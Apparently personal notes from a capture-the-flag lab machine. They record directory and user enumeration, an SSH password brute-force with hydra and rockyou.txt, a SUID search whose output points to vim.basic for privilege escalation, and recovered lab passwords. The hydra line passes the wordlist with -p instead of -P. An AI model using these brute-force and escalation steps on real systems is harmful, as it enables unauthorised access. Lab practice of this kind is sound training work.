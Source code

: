 # Note

## use gobuster

```
/development 
```

# --------------------------------------------------------

## for enumerate the machine
```bash
enum4linux.pl -a ipaddr | tee out.log
```
### user 
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

# --------------------------------------------------------

## brute forcing 
```bash
hydra -l jan -p /mnt/MyHome/opt/rockyou.txt ssh://10.10.54.201

$ armando
```

# --------------------------------------------------------

## find suid on the machine
```bash
jan@basic2:/tmp$ find / -perm /4000 2>/dev/null

/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/vim.basic
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/passwd
/bin/su
/bin/ntfs-3g
/bin/ping6
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
```

# ---------------------------------------------------------------------

```bash
/usr/bin/vim.basic

```

kay password = `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`